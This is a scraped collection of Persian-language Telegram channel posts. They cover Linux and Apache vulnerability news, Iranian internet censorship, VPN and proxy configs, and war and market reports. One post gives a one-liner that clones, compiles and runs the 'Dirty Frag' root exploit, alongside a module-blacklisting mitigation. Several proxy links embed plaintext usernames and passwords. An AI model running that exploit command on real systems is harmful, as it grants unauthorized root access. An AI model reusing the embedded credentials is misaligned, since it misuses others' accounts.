## mirzapanel — post 1300

https://github.com/MHSanaei/3x-ui/releases/tag/v3.0.0

## mirzapanel — post 1299

  

بازهم آسیب‌پذیری تمام لینوکس‌ها از ۲۰۱۷: Dirty Frag

آسیب‌پذیری تازه‌ای در ادامه‌ی Dirty Pipe و Copy Fail پیدا شده، که با ترکیب دو باگ امنیتی (xfrm-ESP و RxRPC در Page Cache) در بسیاری از توزیع‌ها می‌تونه دسترسی root بگیره.

می‌تونید روی سیستم خودتون هم امتحانش کنید:

git clone https://github.com/V4bel/dirtyfrag.git && cd dirtyfrag && gcc -O0 -Wall -o exp exp.c -lutil && ./exp

پس از اینکه انجامش دادید، Page Cache شما آلوده شده با اجرای دستور:

echo 3 > /proc/sys/vm/drop_caches

یا ری‌استارت کردن سیستم به حالت پیش برگردونیدش.

راهکار:
تا پچ امنیتی برای توزیعتون بیاد می‌تونید با این دستور ماژولهایی که این آسیب‌پذیری در اونها وجود داره را غیرفعال کنید و Page cache را پاک کنید:

sh -c "printf 'install esp4 /bin/false\ninstall esp6 /bin/false\ninstall rxrpc /bin/false\n' > /etc/modprobe.d/dirtyfrag.conf; rmmod esp4 esp6 rxrpc 2>/dev/null; echo 3 > /proc/sys/vm/drop_caches; true"

روی این سیستم‌ها تا الان تست شده و آسیب‌پذیر بودند:
Ubuntu 24.04.4: 6.17.0-23-generic
RHEL 10.1: 6.12.0-124.49.1.el10_1.x86_64
openSUSE Tumbleweed: 7.0.2-1-default
CentOS Stream 10: 6.12.0-224.el10.x86_64
AlmaLinux 10: 6.12.0-124.52.3.el10_1.x86_64
Fedora 44: 6.19.14-300.fc44.x86_64

اگه شبیه CopyFail به نظر میاد خودشون گفتن که:
ایده شروع این تحقیق از آسیب‌پذیری Copy Fail گرفته شده. به‌طور مشخص، بخش xfrm-ESP در زنجیره آسیب‌پذیری Dirty Frag از همان نقطه ضعف مشابه Copy Fail استفاده می‌کند. اما تفاوت مهم این است که این آسیب‌پذیری مستقل از وجود ماژول algif_aead فعال می‌شود.

به عبارت دیگر، حتی اگر روی سیستم راهکار شناخته‌شده مقابله با Copy Fail (مثل غیرفعال کردن algif_aead) اعمال شده باشد، باز هم لینوکس شما در برابر Dirty Frag آسیب‌پذیر باقی می‌ماند.

⌨️ توضیحات بیشتر در گیت‌هاب

تمام این اتفاق‌ها داره در زمانی میوفته که اینترنت ایران همچنان قطعه، سیستم‌ها به روز نشدند، با خبر شدن از این باگ‌ها و برطرف کردنشون به مراتب سخت‌تر خواهد بود.

🎮 @gooyban

## mirzapanel — post 1297

⚠️ هشدار امنیتی ضروری

⛔️ اگر از نسخه رایگان این ربات استفاده می‌کنید، باید فوری سرور خود را بروزرسانی انجام دهید!

خطر: عدم به‌روز رسانی سرور شما را در معرض آسیب‌پذیری‌های امنیتی شدید قرار می‌دهد و ممکن است منجر به هک، سرقت داده‌ها شود 
🚨.

🔴 مراحل به‌روز رسانی:

- اجرای دستور به‌روز رسانی 
🔄:

apt update && apt upgrade -y

- تأیید نسخه Apache (ضروری) 
📊:
پس از اتمام به‌روز رسانی، نسخه Apache2 شما باید حتماً ۲.۴.۶۷ یا بالاتر باشد 
❌ در غیر این صورت، سرور شما آسیب‌پذیر است!
برای بررسی نسخه فعلی Apache2:
apache2 -v

⚠️ هشدار نهایی:
اگر نسخه Apache2 شما پایین‌تر از ۲.۴.۶۷ است، سرور شما در خطر قرار دارد! به‌روز رسانی را به‌تأخیر نیندازید 
🚫

## mirzapanel — post 1292

باگ امنیتی اپاچی نیز منتشر شد اگر لایت اسپید با انجیکس هم دارید ممکن هک بشید اپدیت اپاچی به نسخه 2.4.67 و یا بالاتر این هم روی سی پنل هم پلسک هم دایرکت ادمین و حتی سرور های بدون کنترل پنل هم الزامی هست هر چه سریعتر آپدیت کنید @poinair پوینا

## mirzapanel — post 1291

باگ امنیتی اپاچی نیز منتشر شد اگر لایت اسپید با انجیکس هم دارید ممکن هک بشید اپدیت اپاچی به نسخه 2.4.67 و یا بالاتر این هم روی سی پنل هم پلسک هم دایرکت ادمین و حتی سرور های بدون کنترل پنل هم الزامی هست هر چه سریعتر آپدیت کنید @poinair پوینا

## mirzapanel — post 1289

  

باگ امنیتی اپاچی نیز منتشر شد اگر لایت اسپید با انجیکس هم دارید ممکن هک بشید

اپدیت اپاچی به نسخه 2.4.67 و یا بالاتر
این هم روی سی پنل هم پلسک هم دایرکت ادمین و حتی سرور های بدون کنترل پنل هم الزامی هست

هر چه سریعتر آپدیت کنید

@poinair پوینا

## mirzapanel — post 1288

سلام به همراهان همیشگی SlipNet 
🕊

امروز می‌خواهم تصمیم مهمی را درباره روند توسعه SlipNet با شما در میان بگذارم:

پروژه SlipNet که با هدف تسهیل دسترسی به اینترنت آزاد و به عنوان یک دغدغه شخصی و مستقل ساخته شده بود، از این پس وارد فاز «نگهداری» (Maintenance) می‌شود. به این معنی که هسته فعلی اپلیکیشن حفظ می‌شود تا همچنان بتوانید از آن استفاده کنید. در این فاز، صرفاً به‌روزرسانی‌های حیاتی (مانند ارتقای کتابخانه‌ها، رفع باگ‌های ناگهانی یا وصله‌های امنیتی) انجام خواهد شد، اما قابلیت یا پروتکل جدیدی به آن اضافه نخواهد شد.

دوست دارم خیلی شفاف دلیل این تصمیم را بگویم. پاسخ کوتاه، یک کلمه است: «فرسودگی».

شاید لازم باشد بگویم که توسعه SlipNet مدت‌هاست از یک پروژه جانبی فراتر رفته و عملاً به یک کار تمام‌وقت تبدیل شده بود. توسعه و زنده نگه‌داشتن ابزارهای ضدسانسور در شرایطی که محدودیت‌ها هر روز پیچیده‌تر می‌شوند، نیازمند تمرکز مداوم، هزینه و انرژی روانی بسیار زیادی است.

توسعه ابزار آزاد، رایگان است اما بی‌هزینه نیست. متأسفانه در جامعه نرم‌افزاری ما، فرهنگ «حمایت مالی» (Donation) هنوز جایگاه خود را پیدا نکرده است. از سو

## mirzapanel — post 1287

بعد از پخش شدن خبر مشکل امنیتی در cpanel که خیلی از سایت درگیر این مشکل شدند cpanel آپدیت برای رفع مشکل داده بود اما رفع نشده و مجددا آپدیت داده.🥸

## mirzapanel — post 1286

  

عجب! چرا هرچی باگه همش تو این دوماه در اومده

موضوع اینه که مرورگر مایکروسافت اج تمامی پسوردهایی که ذخیره میکنه بدون رمزنگاری ذخیره میکنه و این موضوع خطری خیلی بزرگی حساب میشه بخصوص داخل سازمان ها و یک حفره امنیتی حساب میشه

- مایکروسافت این موضوع رو تایید کرده و گفته عمدی این موضوع اجرا شده و باگ حساب نمیاد😂😂

## mirzapanel — post 1285

هم اکنون هجوم مردم به پمپ بنزین ها با صف های چند کیلومتری😂😂

## mirzapanel — post 1284

🌊

## mirzapanel — post 1283

خوب ایران جنگ شروع کرد

ساعت حدود ۱۳:۳۰ دوشنبه؛ گزارش‌ها از شلیک یک موشک از سایت نظامی سیریک (هرمزگان) به سمت خلیج فارس در موقعیت تنگه هرمز حکایت دارد.

## mirzapanel — post 1282

درود ppa ظاهرا اوکی شده نصب ربات تست کنید اگر اوکی شده دایرکت چنل اطلاع بدید

## mirzapanel — post 1281

اطلاعیه عمومی: اختلالات Launchpad / PPA که بر به‌روزرسانی‌های سیستم اوبونتو تأثیر می‌گذارد (به دلیل دور دوم حملات DDoS) 
🚨 اگر خودتان روی اوبونتو میزبانی می‌کنید و به PPAها وابسته‌اید، این مشکل هنوز به طور کامل حل نشده است. 
🛑 اختلال گسترده‌ای که زیرساخت‌های…

## erfanandroid — post 88592

➕هشدار قرمز رییس اتحادیه طلا: سرمایه مردم در پلتفرم‌های آنلاین در خطر است.

در هیچ کجای دنیا طلای آب شده به این شکل فروخته نمی‌ شود و طلا به صورت شمش یا طلای زینتی فروخته می‌شود./ عصر ایران

➖قبلا در این مورد ما تذکر داده بودیم که این پلتفرم ها عملا خالی فروشی میکنند , در چین با اون اقتصاد قوی و قوانین سختگیرانه , عاقبت این پلتفرمها کلاه برداری شد ما که جای خود داریم ..

@erfanandroid

## erfanandroid — post 88591

تعدادی سررور v2raaaayng همکار موجود شده حجم 1 گیگییی و بیشتر سااب هم داره ضریبم نداره تاریخ انقضام نداره چندکاربرس رو تمام اپراتورها سرعتش عالیه کسی خواست بگه بش بدم مشکلی هم پیش بیاد واسش رفعش میکنه قط کلی نداریم تا الان اوکی بوده @aloerfan

## erfanandroid — post 88590

  <a href="telegram/content/erfanandroid_88590_1778607688.mp4" target="_blank">🎬 Download video</a>

واکنش شهبازی، مجری شبکه ۲ به تفاوت وضعیت اینترنت مردم ایران و کشورهای منطقه:

اگه خیلی این چیزها مهمه، برید همون افغانستان و سوریه زندگی کنید! هاهاهاها

@erfanandroid

## erfanandroid — post 88589

سرور اسلیپ نت تست شده رو ایرانسل
کوری سایزو عوض کنید متناسب با منطقتون

slipnet-enc://AciTzTs77oxR260CO13RYQ8Ruzc36ucGdCqL01jBIV1idgMPE6XTF2mEgCcPU9OaVgoZRzrLfId6TkXbh+eGLBME/s2EEUG8A9pp03sp/S5Lpo+/3jWGGuRFTvop2tLQYdMWvF00GodCUJsl+GQCdDS1z10mfZwnj1LvynKk3QSBYC/ukefXXv3cig/FV2z3+TT7VQy95nLCnSKE78MKf8j/0kKi+Jtrh7xSTN6rFnyjCBmQycXJnTiFPYKfJizZnMEw+up1B9atZGeq7iMsYP5CycajqjFZv0m8P99oufHSWmMsMQvuhUf3TKcjSm3PlNaCasiAffj0h8LmYJnE1fHQkBNxT6zG0jnuCUJYJjQGBj5M60qgnvrdZwC5nt8V60M/gh/qR7VC61x5RsE8mSzKlRnUFqDN8U5GC5/Vaehfmcx06nFK6PYDH1rZOP3m0/P/bNu5uF0r4vVujJ0ADASrEPFBi8KGnp2HV+IfL5f2jDY2lSwFEsmzjePc37egeMgyznNV282mZm9CnIDlCveS7C8pR0Eh3e8tUAAU9iqV4ao4bjM5cydG8MAW1kPSQv6HlygLfl1Y1ipnshDjfa7AC6hOS6o0TLI178/XEsAGpjSDI6NWy1eK+5oy1MQz95jxoUvErMGfyX4V7B2Y83ruuqO9PmiAo1X4GZCIpbv6NxQGPLPh9O5jush0EkTi++AKtB7derRQ6GGpmZc16xrOU2O3WRtd1HFe+zxJejkCwn9TkI4TrfSoNQCam03psmexG2LyMdFkOV0BAFibmtRmKFrrP0rlGPXg

@erfanandroid

## erfanandroid — post 88588

اگه کار مهمی ندارید فیلترشکن نخرید
والا پول رو باید از زیر پا فیل دربیاری تو این مدت
تو اینستا که خبری نیست
تلگرامم عده کمی پولدار و سیم سفیدو پرو وصلن
واتسپم که مورچه درجا میزنه
سرور خریدن با این قیمتا به صرفه نیست چون دستوسی داخل به خرج بستس نمیشه سرور ارزون ساخت
میانگین قیمتام از 250--500 هستش الان تقریبا بستگی به کیفیت و ضریب و ساب وی پی ان هست...
اگه نیاز ضروری دارید حجم کم بخرید
حتما ساب داشته باشه حجمتونو و اخرین اتصالو چک کنید و ضریب نداشته باشه بتونید مدیریت کنید حجمو
از جایی بخرید اگه قط شد درستش کنه چ یروزه چه ی ماهه نگه تضمینی نبوده
کانال ما از سال 94 نرم افزاریه نه فیلترشکنی
به هرحال هرچیز فیری دستم بیاد میزارم براتون حتما
@erfanandroid

## erfanandroid — post 88587

این پیام به همه داره ارسال میشه. پیامک فعال‌سازی اینترنت پرو !؛ فیلترینگ که براشون ضرر داشت رو دارن برمیدارن ولی بسته اینترنت رو حداقل 6 برابر کردن البته فیلترینگ روی اینترنت پرو باز هم وجود داره. فقط دسترسی به تلگرام و واتساپ باز هستش. @erfanandroid

## erfanandroid — post 88586

  

این پیام به همه داره ارسال میشه.
پیامک فعال‌سازی اینترنت پرو !؛

فیلترینگ که براشون ضرر داشت رو دارن برمیدارن ولی بسته اینترنت رو حداقل 6 برابر کردن

البته فیلترینگ روی اینترنت پرو باز هم وجود داره. فقط دسترسی به تلگرام و واتساپ باز هستش.

@erfanandroid

## erfanandroid — post 88585

  

استارلینک هم احراز هویت را اجباری کرد!

🔹شرکت استارلینک برای کاربران دارای سرویس فعال، احراز هویت اجباری با پاسپورت و سلفی راه انداخت.

🔹گفته شده که نام اکانت استارلینک باید با نام روی پاسپورت یکی باشد.

🔹فرم احراز هویت، شامل موارد الزامی چون نام کامل، ملیت، تاریخ تولد، شماره پاسپورت، تصویر واضح از صفحه اول پاسپورت و عکس سلفی می‌باشد./ فارس

@erfanandroid

## erfanandroid — post 88583

سه تا سرور اسلیپ فعال

slipnet-enc://ARbKYmNKDCBsd4m8LihbKZ+CmFgTWjFEEspZDyZQCbTihtoqwDVoNrV34hvDw+C825MjRSEGXdNfttJuSUzf7Czp5p3V1z04PIRg48C4I7HyA99dJrQki4q7QX/oAnFkdEPTEyjjhpM8/VifnIzlcnf7sQ0jagO9eszzQ9We575AHiplv9qxzdFE2n2BJfmUpPbOu+ohnaT2bvhqEsNbDKbnE96rMO6xWs7h212OiAB5hNBnvzUTHfron3WBDQnNmmWp199fli31bv6dQlcOEAhd8H0+JdNRJd5Ewarle9b/nXzADezhb7A5E+qLz6w/ydZ84Vt8WUSNXYmSS0C751VJ8TDqjdMMCTz+xE+aFg+CilSbGtM7y4j91/2hCN4N8jrJsWCRO6Z67u+lY4UR0en9D7KMUpx9AElnEcB9dM1myIABsrMRz8EUGOkANwpHUpbwCCf1Ss0ggPtQtMtzsx442JFzHAaN8JftPmiybkJ3wyfENc2Pd05ET3TvujGKORDxOawcoY3aFZ7i/eitibgGSjCKFhMR8H6O2ielK+zZreJM38CQWoIKAbcrylBJ3wSdu/gg34MXIgo+jlGIxi3xHavuQByf2DNrNeZAOywA7oOAL4APJdu5NNK9NEOYkCt8s0sVrKU/qtS5bNPaC4N6bA/R33P74Izpm2LLnsmMgxVariHejObkdRBKZKLevv9Je9bIh0NvHOaw8eoQQVhEmETDudOrnvqow93MMgVJ7RB/HrK5+y71tco3PHhxpLukww6DzQmmNHOE

slipnet-enc://AamcRJF9J8OQGttX1GhcM7KJd1jPG0/7aXoAOk2+iAenUN0CAz13JDutdVv0LFOfy7jFirJrtLuFi8+5o68Tn6YgYdGtQxMQT7RhZ37TnCtZ6TLyf2DwXg+E7W7p4NvqADLbOrqBMo8oEiZsURjUix4fnvrOEm+5lruugzhc/4qcX1L6I3eCXzhKljXlaNu4xtH0HDhSqqXORlOE1xsHInVPqDTJLlA0dsZEHG0+oEXzd2bA0HBWEbJffu4rLcEQF28G8/hdVW5cUDtxVar8MGEN3zVDxIn/ajyaCRzf2JjxiRy5yyz4gfCapds9eigEhQj8Bz8YOk0vAVFI79fnZsBBKmX0hCg2XLLFObp9+FxbKO77zuraRRfKB7+JfUrAZ/wwcOTiY4LUKOxf6GJqFyqMsr7o0baMp5V6jvCpsPjx2QvFK/AUWEgJFAvnqqjDD7/80qXeju6SWCSsZWuCbxZ/HpE9AfwnGZhv4zD/mKLUTXvabNSLW7/9yo7eXAbiwhu/gTLGpdZ5kUTpaY0dgOavyZdkEqSBajCIaoFMtYRlPE00gOtbBPl3tA6uIk+kbuKFYvxpvIKMq/Wek0LUa6KfAIUSgq8p1+yLc2A3Bq8wrnMQboyjnZ155EuBv/sn0F7a2iHoG7Ll77oL67eiGInuIkCTfMUu1FjpI1R13FMRDtylBnbbdoEvlHg1MI9n8dP4lOs7gKpp/fcgiGZk9Rv8veEIaf1UsptJm/+OcTTi5dkQ6YFFDjR3rWWgk2Nf8Ju6i/jLPL2auf91

slipnet-enc://ATkNVaEIkSz7/xMdqXrWrMK+9xkzYqznrxnJFDXwJh3E60S2wqLyxWAJJ/UVOSP9k5i1lhE+AbteZZyemYMV+HnQMH/DJJHKdzU6pfu5RDCnPEUYvVgwtGTpQ7UxTWLAwBp5pPngX/ZRou60do7iGsrM22QTtUGdlt6EFL737YXCRYe3PNNdK/YGwSHRaVpqFu3Li6Ob+Al1nXBA3uSw78SzzI38OwDMh14+jg2YZZyJ0V2Y2QSVDDflqyI/OeS4GUnp60W/fHQcJQsgBtQEdDpPHFfefVYy+Ux0bu4IAxX+c61CPK4Immp5G1PbS4j3Ilkl4g80ZZLn8pftMW4it8rglQMYF/sd7I4UmEPYxZEKj7B7k9/pitaIno+Tfo0/AINNYkK0j7l/1QfiPesnDx6danoDWx0+BIhG0z0XXI1PEMLmnRIz5CRbc1nG1b41bQ88uQUKvZbKRVlRZmdYUelQUx9Se3JXQqbBZwSXjDjTEmv/Ysc4yQk+e6g/PvLBnZo1VQc4jJGUjfLM0MX9LeksjD5v+HYl3bGocfqZdgU6VP+kLXJxrb61KyawoVBF1mmwRHtN5uBc/DRmoEZKmWUMQi/0X7h3DT9oBkn0DGCgIMGamtFp2ejC+jTZoZ/jLc6uqtLxru87n1W7YBLf6W/HoVOqzxn1tI9rSU5fyl31RPCWKIeSdAoKLdcfxocldDGNelkYW2OoG8FcSfrZUgWP8cpHs+j5LfTNzq/CIhvaQPy2iIwi4Ni7evG1jYne+1j6S3i2pqSCHIoh/RE=

@erfanandroid

## erfanandroid — post 88582

سرررور اسلیپ نت
رو ایرانسل کوزی سایز 80 با mtu 720 وصل شدم

slipnet-enc://ASmR21oWPB++w7rHhUatCPpGrH93HrwzaOpNXZUjF/467Xpl/7Knm26buWCqAR+V07k5/ReUypqakAYAl3tfwxQcL+wwhpCRfvcjcZR5ivW0WU5NO7z6vvOEeY88O8U6qb/qEkoxYYUzzSOtPSKPMSwRpp96RsMEV2JUbrmIbBHrFShyoDw42uZXErRRM3mUeiRg1Biyd4dWOlHzf+uybLGnW+IVuzXAdYzBHILV0Fvq8J1gU+FJCFryXKGjuDDYDm5oLgiZ2IYAGZXu2YFa1hnw6avERhu4DT8LW+kziZgkxl4e92BRLX2Nol8DvDMhanWFZjjE+dQxxKxUrFtG/F3nyAybxR7WfaT22iN6ope/7pbzgyVbRsaxX2yFRFoWhtMKii2/T946S73Ca3WOMRFEEXbk2mzNPcd8kxnKwuYwHuIdSxots2sT14L2+eOZ7Dc84VDfPjLIRubU+7kqxVUq5L0WEaVkY2Ap9m4kdx1OiszcVx8rpmWQDglpgW8vhViStJ2AjmJ36z8B8yOL3Syn7sXFYPD/q/Y2opFh4GTK/GXhel68nsk00PUL/RXl2cWBDl6fR9ECfg894hl3lW11MsGjW5M96DWXFpsmm+oS1PNmmrL4YTc9NKFxLDkvBkG+FJ9DzTmBwGeuxKISTKTXvuc79GutRBwnV/cEC1JuwYZrXolHjCq3Sr7/+tQh/Rf0Tdu1b4AMyHIbi7kbzSeUcvsM0U0QF1AiG4/jQ72lpCXhSRGwzEesKN8c+ZEMmlXiP7vwO5IfPx22UZrLDSUJYJyk0NPs

@erfanandroid

## erfanandroid — post 88581

🔴 هم اکنون اختلال در زیرساخت اینترنت کشور طبق گزارش‌های کاربران، هم‌اکنون کاهش پهنای باند و اختلال گسترده‌ای در زیرساخت اینترنت کشور رخ داده و برخی سرویس‌دهنده‌ها با قطعی یا از دسترس خارج شدن مواجه شده‌اند. بر اساس این گزارش‌ها، سرورهای شاتل، مبین‌نت، ایرانسل…

## erfanandroid — post 88580

🔴 هم اکنون اختلال در زیرساخت اینترنت کشور

طبق گزارش‌های کاربران، هم‌اکنون کاهش پهنای باند و اختلال گسترده‌ای در زیرساخت اینترنت کشور رخ داده و برخی سرویس‌دهنده‌ها با قطعی یا از دسترس خارج شدن مواجه شده‌اند.

بر اساس این گزارش‌ها، سرورهای شاتل، مبین‌نت، ایرانسل و رسپینا دچار اختلال شده‌اند و همزمان بسیاری از سرویس‌ها، هاست‌ها و خدمات داخلی نیز با اختلال و کندی شدید مواجه شده‌اند.

همچنین گزارش‌ها حاکی از آن است که برخی VPNها نیز دچار اختلال شدند و یا اتصال آن‌ها به‌طور کامل قطع شده است.
-رادار
@erfanandroid

## erfanandroid — post 88579

  <a href="telegram/content/erfanandroid_88579_1778607691.mp4" target="_blank">🎬 Download video</a>

ویدیویی تو شبکه‌ های مجازی داره وایرال میشه که ادعا میشه علائم ترسناک پوستی فردی رو که به «هانتا ویروس» مبتلا شده رو نشون‌میده :

کم مشکلات داریم خودمون الان باید دغدغه این ویروس جدیده(هانتا ویروس) هم‌ داشته باشیم؛

+البته این میتونه تنها یک آلرژی پوستی باشه

@erfanandroid

## erfanandroid — post 88578

🚨فوری/فاکس نیوز: ایالات متحده حملاتی به بندر قشم و بندرعباس در ایران انجام داد اما یک مقام ارشد آمریکایی می‌گوید این آغاز مجدد جنگ نیست.

@erfanandroid

## erfanandroid — post 88575

با نخریدن شما قیمت خودرو کاهشی شد
البته اینکه کسی پول هم نداره بی تاثیر نیست
تتر هم از 190 تومن شد 174
دیوار پر شده از اگهی هایی که چندروزه دارن اگهی میکنن و کسی نیست بخره و مجبورن نردبان یا پله کنن اگهیشونو
نخرید اقا نخرید

@erfanandroid

## erfanandroid — post 88573

  

آپدیت تحلیل #دلار :

دلار موفق شد به تارگت اعلام‌شده در تحلیل قبل در محدوده ۱۶۴٬۹۰۰ تا ۱۷۱٬۰۰۰ تومان برسد و روند صعودی خود را ادامه داد و سقف جدیدی را در محدوده ۱۹۰٬۰۰۰ تومان به ثبت رساند.

در حال حاضر، سقف کانال در محدوده ۱۸۹٬۸۰۰ تا ۱۸۶٬۰۰۰ تومان به عنوان مقاومت فعلی دلار محسوب می‌شود و نزدیک‌ترین محدوده حمایتی در بازه ۱۶۴٬۱۰۰ تا ۱۶۹٬۸۰۰ تومان قرار دارد!

@erfanandroid

## erfanandroid — post 88571

تتر از 190 شد 170تو یه دقیقه

@erfanandroid

## erfanandroid — post 88567

  

سوپر اپلیکیشن ایتا کاربر جدید نمی‌پذیره😂

@erfanandroid

## erfanandroid — post 88564

➕حتی کانفیگ ندارم برم اینستا زیر پستای جذب ثروت بزنم آمین😂

@erfanandroid

## erfanandroid — post 88563

  

آپدیت #طلا‌ی ۱۸ عیار :

قیمت طلای ۱۸ عیار به مقاومت اعلام‌شده در تحلیل قبل در محدوده ۱۹,۷۰۰,۰۰۰ تا ۲۰,۶۰۰,۰۰۰ تومان رسیده و حدود ۱۷٪ رشد داشته است.

در حال حاضر با این محدوده مقاومتی درگیر است. در صورت شکست این ناحیه، مقاومت پیش‌رو برای طلا در محدوده ۲۱,۸۰۰,۰۰۰ تا ۲۲,۹۸۰,۰۰۰ تومان قرار دارد.نزدیک‌ترین حمایت نیز در محدوده ۱۷,۵۰۰,۰۰۰ تا ۱۸,۶۰۰,۰۰۰ تومان است!

@erfanandroid

## Spotify_Porteghali — post 12355

پروکسی مخصوص نت ملی 
🛜 ایرانسل : https://t.me/socks?server=soft98.ir.mastershoop.ir&port=7070&user=skyahmadvip&pass=mwkwYWZDUn 🆔 @Spotify_Porteghali 🍊 ↰  بزرگترین خانواده اسپاتیفای در کشور  ↱

## Spotify_Porteghali — post 12354

پروکسی مخصوص نت ملی

🛜 ایرانسل :

https://t.me/socks?server=soft98.ir.mastershoop.ir&port=7070&user=skyahmadvip&pass=mwkwYWZDUn

🆔 @Spotify_Porteghali 🍊

↰  بزرگترین خانواده اسپاتیفای در کشور  ↱

## Spotify_Porteghali — post 12353

- کانفیگِ جدید برایِ SlipNet -
تست شده با 
🛜 همراه اول ( حتما با بقیه ی اینترنت ها چک کنید )

slipnet-enc://AW00Jpz+nyD3huWZP4Hpxyl7oiQ+kHmuCixYXyOZ7d15UOIsNiN4CG1Wx+22gRY2BzJquX2T2zUDklMECV0+PuavJn54dG7kobPyVsirwqsnAFckbNuNh7QDdu9zz5O6f+AslTfptzDEEE+9qDKZBLyn+78CqiI3ZBNVlPnmfhB3cLJ50UrYwM/gGK5BSxisth2ZDqP2Iu8r0xhe68RS340z0Rrreh+jGpr8yHHcq8utBP9gM2M+mTZtqjoFkEvcozWQoGjExjbAoXr30Haitp0E6TTlACoHKcGeORM/FHRmzQk49TFw4k13DkcnavQhrKxXCD+xwTzkJbjTOfwX2hakSsUSWWasjpVizVVdegW4iMf+0AQi+9WuKvbSGnGbtEEiu84JJ74/yMKZ+gOizp2xK6vpLPUnz623Hs3eVlTwlmVt/jXIYz5sORqKwuyy0dz/xBMh4BD943hH/hfgblQgltjYsvm/dG7aC/6LEQV2IS2KITzru1/F9c0sQnn/tQYbT8RxVilxsZkLDTbRCdyt4DrXZIOWdFbp+n09qO8tMK60CGV9Thnt0bR/Wif7mTbvAZ4Fh48M8wXTa2NyCPa3IzBab41hHN5cPYakb1R1lEJxsOHW2pKidfTmezPXz6Ssh3im6lHfAqt6c1b5auxRfOhiCDe7RuBBtohoaHgDwsCF

💬 لینکِ دانلودِ مستقیمِ بدونِ فیلترِ اپلیکیشنِ SlipNet 
💬

💬 تنظیماتِ پیشنهادی برایِ SlipNet 
💬

⚪️حتما از تنظیمات VPN MTU رو رویِ 512 بگذارید و تنظیمات رو ذخیره کنید .

⚪️زمانی که کانفیگ رو ادد کردید قبل از اتصال رویِ علامتِ مداد کنارِ کانفیگ بزنید و DNS Query Size رو هم یکبار رویِ 50 بزارید و تست کنید و هم یکبار 60 بزارید و متصل بشید .

⚪️حتما از تنظیمات گزینه‌ ی Proxy-only Mode رو‌ فعال کنید . بعد از اینکه کانفیگ متصل شد ، به یکی از پروکسی هایِ زیر در تلگرام متصل شَوید .

🔗 : https://t.me/socks?server=127.0.0.1&port=10880

🔗 : https://t.me/socks?server=0.0.0.0&port=10880

🆔 @Spotify_Porteghali 🍊

↰  بزرگترین خانواده اسپاتیفای در کشور  ↱

## Spotify_Porteghali — post 12351

  

پروکسی مخصوص نت ملی 
🛜 ایرانسل : https://t.me/socks?server=62.220.126.92&port=32024 🆔 @Spotify_Porteghali 🍊 ↰  بزرگترین خانواده اسپاتیفای در کشور  ↱

## Spotify_Porteghali — post 12350

پروکسی مخصوص نت ملی

🛜 ایرانسل :

https://t.me/socks?server=62.220.126.92&port=32024

🆔 @Spotify_Porteghali 🍊

↰  بزرگترین خانواده اسپاتیفای در کشور  ↱

## Spotify_Porteghali — post 12349

  

🔶 @Spotify_Porteghali.npvt

## Spotify_Porteghali — post 12348

  <a href="https://t.me/Spotify_Porteghali/12348" target="_blank">📎 Download file</a>

💬  کانفیگِ اختصاصیِ جدید و پر سرعت برایِ برنامه‌ی NapsternetV برای اینترنت ملی  
💬

اینترنت : همراه اول 
🛜 ، مخابرات 
🛜

⭐️ Provider : @Spotify_Porteghali

| نحوه اتصال و استفاده از کانفیگ هایِ NapsternetV |

| دانلودِ فایلِ همین کانفیگ با لینکِ مستقیم |

• برایِ دانلود اپلیکیشنِ NapsternetV اینجا کلیک کنید •

🆔 @Spotify_Porteghali 🍊

↰  بزرگترین خانواده اسپاتیفای در کشور  ↱

## Spotify_Porteghali — post 12346

پروکسی مخصوص نت ملی 
🛜 مخابرات و 
🛜 ایرانسل : https://t.me/socks?server=185.231.183.229&port=80&user=ermia&pass=Ermia3472%23 🆔 @Spotify_Porteghali 🍊 ↰  بزرگترین خانواده اسپاتیفای در کشور  ↱

## Spotify_Porteghali — post 12345

پروکسی مخصوص نت ملی

🛜 مخابرات و 
🛜 ایرانسل :

https://t.me/socks?server=185.231.183.229&port=80&user=ermia&pass=Ermia3472%23

🆔 @Spotify_Porteghali 🍊

↰  بزرگترین خانواده اسپاتیفای در کشور  ↱

## Spotify_Porteghali — post 12343

  <a href="https://t.me/Spotify_Porteghali/12343" target="_blank">📎 Download file</a>

1:02

- Download / Play Online -
[ Slowed Version ]

🆔 @Spotify_Porteghali

## Spotify_Porteghali — post 12342

💬 لینکِ دانلودِ مستقیمِ داخلی ( بدونِ فیلتر ) وی پی ان ها و کلاینت هایِ اندروید که این چند روز کارآمد و متصل بودند 
💬 
⚪️Psiphon [ v 453 ] : https://punkpaste.ir/f/Psiphon-v-453-Spotif-5ece84 
⚪️Psiphon ( Mod ) [ v 462 ] : https://punkpaste.ir/f/Psiphon-Mod…

## Spotify_Porteghali — post 12341

💬 لینکِ دانلودِ مستقیمِ داخلی ( بدونِ فیلتر ) وی پی ان ها و کلاینت هایِ اندروید که این چند روز کارآمد و متصل بودند 
💬

⚪️Psiphon [ v 453 ] : https://punkpaste.ir/f/Psiphon-v-453-Spotif-5ece84

⚪️Psiphon ( Mod ) [ v 462 ] : https://punkpaste.ir/f/Psiphon-Mod-v-462-Sp-ahwkfb

⚪️V2RayNG [ v 2.1.7 ] : https://punkpaste.ir/f/V2rayNG-v-2-1-7-Spot-h9ruel

⚪️V2RayN ( Windows ) [ v 7.20.4 ] : https://punkpaste.ir/f/V2rayN-Windows-64-v--kpaadf

⚪️NapsternetV [ v 123.1 ] : https://punkpaste.ir/f/NapsternetV-v-123-1--lbgylr

⚪️SlipNet [ v 2.5.3 ] : https://punkpaste.ir/f/SlipNet-v-2-5-3-Spot-u2qm41

⚪️SlipStream ( Windows ) : https://punkpaste.ir/f/SlipStream-Windows-6-7u0ztz

⚪️V2Box [ v 5.0.3 ] : https://punkpaste.ir/f/V2Box-v-5-0-3-Spotif-81wbem

⚪️Happ [ v 3.18.1 ] : https://punkpaste.ir/f/Happ-v-3-18-1-Spotif-2c3j6p

⚪️OpenVPN  [ v 3.3.2 ] : https://punkpaste.ir/f/OpenVPN-Connect-v-3--j9eyfv

⚪️HTTP Injector [ v 6.5.0 ] : https://punkpaste.ir/f/HTTP-Injector-v-6-5--zm9aw8

⚪️NetMod [ v 3.2.8 ] : https://punkpaste.ir/f/NetMod-v-3-2-8-Spoti-2w9cvj

⚪️ShirOKhorshid [ v 2026.3.17 ] : https://punkpaste.ir/f/ShirOKhorshid-v-2026-fawu8g

⚪️AM Tunnel Pro [ v 28.0 ] : https://punkpaste.ir/f/AM-TUNNEL-Pro-v-28-0-dx7yfy

⚪️AM Tunnel Lite : [ v 2.0 ] : https://punkpaste.ir/f/AM-TUNNEL-LITE-v-2-0-xxxug8

⚪️MasterDNS [ v 1.0.9 ] : https://punkpaste.ir/f/MasterDns-v-1-0-9-Sp-36ckys

